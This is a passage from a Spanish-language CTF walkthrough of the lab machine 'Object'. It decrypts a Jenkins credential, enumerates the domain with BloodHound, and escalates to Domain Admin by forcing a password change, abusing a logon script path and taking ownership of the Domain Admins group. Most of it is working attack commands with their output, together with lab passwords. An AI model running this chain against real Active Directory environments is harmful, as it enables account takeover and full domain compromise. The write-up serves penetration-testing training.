  </properties>
</user>
```

Vemos este apartado que contiene la contraseña de un usuario llamado `oliver`, algo extraño.
```xml
<com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
              <id>320a60b9-1e5c-4399-8afe-44466c9cde9e</id>
              <description></description>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
```

Pero a parte vemos otro hash `bcrypt`, este hash no consigo crackearlo con `hashcat`
```xml
	 <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$q17aCNxgciQt8S246U4ZauOccOY7wlkDih9b/0j4IVjZsdjUNAPoW</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
```

Podemos meter todo el XML a un archivo llamado `credentials.xml` y teniendo las claves de encriptación anteriormente encontradas `master.key` y `hudson.util.Secret` podemos desencriptar esa credencial junto con [este script de python](https://raw.githubusercontent.com/gquere/pwn_jenkins/master/offline_decryption/jenkins_offline_decrypt.py)

```console
$ python3 jenkins_offline_decrypt.py master.key hudson.util.Secret users.xml 
c1cdfun_d2434
```

Y vemos que podemos acceder a través de WinRM como el usuario `oliver`
```console
$ nxc winrm 10.129.246.207 -u 'oliver' -p 'c1cdfun_d2434'
WINRM       10.129.246.207  5985   JENKINS          [*] Windows 10 / Server 2019 Build 17763 (name:JENKINS) (domain:object.local)
WINRM       10.129.246.207  5985   JENKINS          [+] object.local\oliver:c1cdfun_d2434 (Pwn3d!)
```

Ahora con `evil-winrm` podemos ganar una consola interactiva.
```console
$ evil-winrm -i 10.129.246.207 -u 'oliver' -p 'c1cdfun_d2434'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\oliver\Documents> whoami
object\oliver
```

Y podemos ver la flag de usuario.
```console
*Evil-WinRM* PS C:\Users\oliver\Desktop> type user.txt
63dce506ee5e...
```

# User Pivoting
El usuario `oliver` no pertenece a ningún grupo interesante ni tiene ningún privilegio interesante.
```console
*Evil-WinRM* PS C:\Users\oliver\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
*Evil-WinRM* PS C:\Users\oliver\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

Vemos un usuario `maria`
```console
*Evil-WinRM* PS C:\Users\oliver\Desktop> net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    krbtgt
maria                    oliver
The command completed with one or more errors.
```

No vemos que `maria` pertenezca a ningún grupo interesante a parte del `Remote Management Users`.
```console
*Evil-WinRM* PS C:\Users\oliver\Desktop> net user maria
User name                    maria
Full Name                    maria garcia
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/21/2021 9:16:32 PM
Password expires             Never
Password changeable          10/22/2021 9:16:32 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   9/1/2024 11:55:10 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

También vemos que existe el directorio personal de trabajo de otro usuario llamado `smith`
```console
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/10/2021   3:20 AM                Administrator
d-----       10/26/2021   7:59 AM                maria
d-----       10/26/2021   7:58 AM                oliver
d-r---        4/10/2020  10:49 AM                Public
d-----       10/21/2021   3:44 AM                smith

```

Pero no podemos listar información de este usuario.
```console
*Evil-WinRM* PS C:\Users> net user smith
net.exe : System error 5 has occurred.
    + CategoryInfo          : NotSpecified: (System error 5 has occurred.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
Access is denied.
```

## Bloodhound
Vamos a pasar el `Sharphound` para hacer la posterior enumeración utilizando `Bloodhound` a ver si encontramos algo interesante.

Podemos hacer uso de la función `upload` interna que tiene `evil-winrm` para poder subir el binario de `SharpHound`

```console
*Evil-WinRM* PS C:\Windows\Temp\work> upload SharpHound.exe
                                        
Info: Uploading /home/pointedsec/Desktop/object/content/SharpHound.exe to C:\Windows\Temp\work\SharpHound.exe
                                        
Data: 1402880 bytes of 1402880 bytes copied
                                        
Info: Upload successful!
```

Ejecutamos el `SharpHound`
```console
*Evil-WinRM* PS C:\Windows\Temp\work> .\SharpHound.exe -c All 
```

Cuando termine, vemos que nos ha generado un archivo .zip.
```console
*Evil-WinRM* PS C:\Windows\Temp\work> dir


    Directory: C:\Windows\Temp\work


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         9/1/2024  12:19 PM          11385 20240901121934_BloodHound.zip
-a----         9/1/2024  12:19 PM           7897 MWU2MmE0MDctMjBkZi00N2VjLTliOTMtYThjYTY4MjdhZDA2.bin
-a----         9/1/2024  12:17 PM        1052160 SharpHound.exe
```

Nos lo descargamos haciendo uso de la función `download` interna que tiene `evil-winrm`
```console
Evil-WinRM* PS C:\Windows\Temp\work> download 20240901121934_BloodHound.zip
                                        
Info: Downloading C:\Windows\Temp\work\20240901121934_BloodHound.zip to 20240901121934_BloodHound.zip
                                        
Info: Download successful!

```

Iniciamos la base de datos `neo4j` ya que es la que utiliza `Bloodhound` e iniciamos Bloodhound.
```console
$ sudo neo4j start
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:7623). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

Cargamos el archivo zip en el `bloodhound`


Marcamos al usuario `oliver` como owned.


Y rápidamente detectamos un vector de ataque.


El usuario `oliver` tiene el atributo `ForceChangePassword` hacía el usuario `smith`, esto significa que podemos cambiar la contraseña de `smith`.

`smith` a su vez tiene el atributo `GenericWrite` sobre el usuario `maria` que significa que podemos escribir cualquier atributo no protegido en el objeto víctima por lo cual podríamos crear una `Shadow Credential` para poder autenticarnos como `maria` sin necesidad de cambiar la contraseña.

Y para terminar `maria` tiene el atributo `WriteOwner` sobre el grupo `Domain Admins` que significa que `maria` puede modificar al propietario de este grupo que es `Administrator` y podríamos agregar a otro usuario como propietario.


Pero vamos pasito a pasito.
## Abusing ForceChangePassword

Vamos a utilizar `bloodyAD` para realizar este paso de nuestro vector de ataque ya que es como una navaja suiza para los movimientos laterales y escalada de privilegios en Active Directory.
https://github.com/CravateRouge/bloodyAD

Lo subimos a la máquina víctima.
```console
*Evil-WinRM* PS C:\Windows\Temp\work> upload bloodyAD.exe
                                        
Info: Uploading /home/pointedsec/Desktop/object/content/bloodyAD.exe to C:\Windows\Temp\work\bloodyAD.exe
                                        
Data: 17932052 bytes of 17932052 bytes copied
                                        
Info: Upload successful!
```

Podemos intentar cambiar la contraseña de `smith`
```console
*Evil-WinRM* PS C:\Windows\Temp\work> .\bloodyAD.exe --host 127.0.0.1 -d object.htb set password "smith" "Pointed123@"
bloodyAD.exe : unicrypto\backends\cryptography\RC4.py:13: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
    + CategoryInfo          : NotSpecified: (unicrypto\backe...dule in 48.0.0.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[+] Password changed successfully!
```

Y podemos comprobar que la hemos cambiado correctamente.
```console
$ nxc winrm 10.129.246.207 -u 'smith' -p 'Pointed123@'
WINRM       10.129.246.207  5985   JENKINS          [*] Windows 10 / Server 2019 Build 17763 (name:JENKINS) (domain:object.local)
WINRM       10.129.246.207  5985   JENKINS          [+] object.local\smith:Pointed123@ (Pwn3d!)
```

Y ganamos acceso como `smith`
```console
$ evil-winrm -i 10.129.246.207 -u 'smith' -p 'Pointed123@'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\smith\Documents> whoami
object\smith
```

## Abusing GenericWrite -> Shadow Credentials (Failed)

Para abusar este privilegio, podríamos utilizar [pyWhisker](https://github.com/ShutdownRepo/pywhisker), con esta herramienta podemos manipular el atributo `msDS-KeyCredentialLink` del usuario/equipo víctima para conseguir control completo sobre ese objeto pero ya hemos visto en el escaneo inicial que hay muy pocos puertos abiertos y no tenemos abierto ni el RPC ni el LDAP externamente.

Con `chisel` podríamos hacer un proxy tipo socks para compartirnos los puertos que necesitemos pero recordemos que existen limitaciones de seguridad por detrás, así que vamos a utilizar `Whisker` y `Rubeus` para agregar las Shadow Credentials a `maria`

Nos podemos descargar el binario de `Whisker.exe` precompilado [aquí](https://github.com/jakobfriedl/precompiled-binaries/raw/main/Specific/Whisker.exe)

Lo subimos a la máquina víctima.
```console
*Evil-WinRM* PS C:\Users\smith\Documents> upload Whisker.exe
                                        
Info: Uploading /home/pointedsec/Desktop/object/content/Whisker.exe to C:\Users\smith\Documents\Whisker.exe
                                        
Data: 59392 bytes of 59392 bytes copied
                                        
Info: Upload successful!
```

Ahora subimos el `Rubeus`
```console
*Evil-WinRM* PS C:\Users\smith\Documents> upload Rubeus.exe
                                        
Info: Uploading /home/pointedsec/Desktop/object/content/Rubeus.exe to C:\Users\smith\Documents\Rubeus.exe
                                        
Data: 617128 bytes of 617128 bytes copied
                                        
Info: Upload successful!
```

Ahora creamos con `Whisker` la shadow cred, se nos creará un certificado para poder solicitar posteriormente con `Rubeus` un TGT como maría y poder conseguir el hash.

```console
*Evil-WinRM* PS C:\Users\smith\Documents> .\Whisker.exe add /target:maria /path:cert.pfx /dc:127.0.0.1
[*] No pass was provided. The certificate will be stored with the password T7mQzob9bpSWr1cQ
[*] Searching for the target account
[*] Target user found: CN=maria garcia,CN=Users,DC=object,DC=local
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 59d02765-9df6-4a4a-a789-eb8994d9770e
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Saving the associated certificate to file...
[*] The associated certificate was saved to cert.pfx
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:maria /certificate:cert.pfx /password:"T7mQzob9bpSWr1cQ" /domain:object.local /dc:127.0.0.1 /getcredentials /show
*Evil-WinRM* PS C:\Users\smith\Documents> .\Rubeus.exe asktgt /user:maria /certificate:cert.pfx /password:"T7mQzob9bpSWr1cQ" /domain:object.local /dc:127.0.0.1 /getcredentials /show

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=maria
[*] Building AS-REQ (w/ PKINIT preauth) for: 'object.local\maria'
[*] Using domain controller: 127.0.0.1:88

[X] KRB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP
```

Vemos un error, `KDC_ERR_PADATA_TYPE_NOSUPP`

> The error "KDC_ERR_PADATA_TYPE_NOSUPP" simply means that the KDC is not set up for Kerberos authentication


Tenemos otras opciones para abusar el privilegio `GenericWrite`, podemos establecer un SPN al usuario para posteriormente kerberoastearlo e intentar crackear el hash, o podemos establecer un script que se ejecutará como este usuario la próxima vez que inicie sesión. 

> - We can set a service principal name and we can kerberoast that account.
>     
> - We can set objects like logon script which would get executed on the next time account logs in.

En el `bloodhound` podemos ver que `maria` tiene una sesión iniciada.


Antes de hacer lo de la sesión iniciada, vamos a hacer este usuario kerberoasteable para ver si podemos conseguir su credencial, quizás nos pueda servir.

Ahora este usuario ya tiene un SPN.
```console
*Evil-WinRM* PS C:\Users\smith\Documents> setspn -a object.local/maria.object.local:1337 object.local\maria
Checking domain DC=object,DC=local

Registering ServicePrincipalNames for CN=maria garcia,CN=Users,DC=object,DC=local
        object.local/maria.object.local:1337
Updated object
```

Al intentar realizar el ataque con `Rubeus`
```console
*Evil-WinRM* PS C:\Users\smith\Documents> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast               

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : object.local
[*] Searching path 'LDAP://jenkins.object.local/DC=object,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : maria
[*] DistinguishedName      : CN=maria garcia,CN=Users,DC=object,DC=local
[*] ServicePrincipalName   : object.local/test:1337
[*] PwdLastSet             : 10/21/2021 9:16:32 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT

 [X] Error during request for SPN object.local/test:1337@object.local : No credentials are available in the security package

[*] Roasted hashes written to : C:\Users\smith\Documents\hashes.kerberoast
```

Vemos un error, `No credentials are available in the security package`

> **This can happen if a user is a "Protected Users" group member, and integrated Windows authentication is disabled for this user**. See Microsoft's KB for more details.

Así que vamos a cambiar el `scriptpath` de `maria` para que cuando inicie sesión se ejecute un script personalizado.

Primero creamos un objeto de credenciales para el usuario `smith`
```console
*Evil-WinRM* PS C:\Users\smith\Documents> $SecPassword = ConvertTo-SecureString 'Pointed123@' -AsPlainText -Force
```

```console
*Evil-WinRM* PS C:\Users\smith\Documents> $Cred = New-Object System.Management.Automation.PSCredential('object.local\smith', $SecPassword)
```

Ahora creamos un script de prueba llamado `test.ps1` que cuando se ejecute simplemente creará un archivo `poc.txt`

```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> echo 'whoami > C:\\Windows\\System32\\spool\\drivers\\color\\poc.txt' > test.ps1
```

Ahora necesitamos `PowerView.ps1` de suite de `PowerSploit`, esto trae muchas herramientas definidas en módulos de PowerShell para reconocimiento y escalada de privilegios en entornos de directorio activo.

```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> upload PowerView.ps1
                                        
Info: Uploading /home/pointedsec/Desktop/object/content/PowerView.ps1 to C:\Windows\System32\spool\drivers\color\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
```

Importamos `PowerView.ps1`
```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> Import-Module .\PowerView.ps1
```

Y ahora utilizando el objeto `$Cred` que hemos creado anteriormente, cambiamos el `scriptpath` a nuestro script personalizado para el usuario `maria`
```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> Set-DomainObject -Credential $Cred -Identity maria -SET @{scriptpath='C:\\Windows\\System32\\spool\\drivers\\color\\foo.ps1'}
```

¡Y vemos que funciona!
```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> type poc.txt
object\maria
```

No podemos enviarnos una revshell como `maria` por las limitaciones del firewall.

Vamos a listar que tiene en su directorio personal de trabajo por si encontramos algo interesante.
```console
Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> echo 'ls -force -s C:\Users\maria\ > C:\\Windows\\System32\\spool\\drivers\\color\\poc.txt' > test.ps1
```

Cambiamos otra vez el `scriptpath` por si hay algún script que lo reestablece, algo común en HackTheBox.
```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> Set-DomainObject -Credential $Cred -Identity maria -SET @{scriptpath='C:\\Windows\\System32\\spool\\drivers\\color\\test.ps1'}
```

Abajo del todo del archivo vemos lo siguiente, un archivo `Engines.xls`


Vamos a copiarnos este archivo.
```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> echo 'copy C:\Users\maria\Desktop\Engines.xls C:\Windows\System32\spool\drivers\color\Engines.xls > C:\\Windows\\System32\\spool\\drivers\\color\\poc.txt' > test.ps1
```

Cambiamos otra vez el `scriptpath`
```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> Set-DomainObject -Credential $Cred -Identity maria -SET @{scriptpath='C:\\Windows\\System32\\spool\\drivers\\color\\test.ps1'}
```

Ahora vamos a inspeccionar este fichero en nuestra máquina.
```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> download Engines.xls
                                        
Info: Downloading C:\Windows\System32\spool\drivers\color\Engines.xls to Engines.xls
                                        
Info: Download successful!
```

Y vemos varias credenciales para este usuario..


Podemos probar estas credenciales con `netexec`
```console
$ nxc winrm 10.129.246.207 -u 'maria' -p credentials.txt 
WINRM       10.129.246.207  5985   JENKINS          [*] Windows 10 / Server 2019 Build 17763 (name:JENKINS) (domain:object.local)
WINRM       10.129.246.207  5985   JENKINS          [-] object.local\maria:d34gb8@
WINRM       10.129.246.207  5985   JENKINS          [-] object.local\maria:0de_434_d545
WINRM       10.129.246.207  5985   JENKINS          [+] object.local\maria:W3llcr4ft3d_4cls (Pwn3d!)
```

Y encontramos que la credencial de `maria` es `W3llcr4ft3d_4cls`

Conseguimos acceso como `maria`
```console
$ evil-winrm -i 10.129.246.207 -u 'maria' -p 'W3llcr4ft3d_4cls'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maria\Documents> whoami
object\maria
```

## Abusing WriteOwner
Ahora podemos cambiar el propietario del grupo `Domain Admins` para que sea `maria`, para acto seguido asignar a `maria` el privilegio `AddMember` y poder agregarnos a nosotros mismos al grupo `Domain Admins` para convertirnos administradores del dominio.

Ahora con `bloodyAD` podemos cambiar el propietario del grupo `Domain Admins`
```console
*Evil-WinRM* PS C:\Users\maria\Documents> .\bloodyAD --host 127.0.0.1 -d 'object.local' -u 'maria' -p 'W3llcr4ft3d_4cls' set owner 'Domain Admins' 'maria'
bloodyAD.exe : unicrypto\backends\cryptography\RC4.py:13: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
    + CategoryInfo          : NotSpecified: (unicrypto\backe...dule in 48.0.0.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[+] Old owner S-1-5-21-4088429403-1159899800-2753317549-512 is now replaced by maria on Domain Admins
```

Ahora podemos terminar el ataque con `PowerView.ps1`

Como antes podemos importar las funciones de `PowerView.ps1`
```console
*Evil-WinRM* PS C:\Users\maria\Documents> Import-Module .\PowerView.ps1
```

Y añadir a `maria` todos los permisos sobre el grupo (puede porque ahora somos propietarios del grupo `Domain Admins`)
```console
*Evil-WinRM* PS C:\Users\maria\Documents> Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
```

Ahora podemos agregarnos nosotros mismos al grupo.
```console
*Evil-WinRM* PS C:\Users\maria\Documents> Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
```

Y vemos que ha funcionado.
```console
*Evil-WinRM* PS C:\Users\maria\Documents> net user maria
User name                    maria
Full Name                    maria garcia
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/21/2021 9:16:32 PM
Password expires             Never
Password changeable          10/22/2021 9:16:32 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 C:\\Windows\\System32\\spool\\drivers\\color\\test.ps1
User profile
Home directory
Last logon                   9/1/2024 12:23:49 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```

Y ya si reiniciamos la sesión de `evil-winrm` podemos leer la flag de `root`
```console
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
1c90b4d1a87f823...
```

¡Y ya estaría!

Happy Hacking! 🚀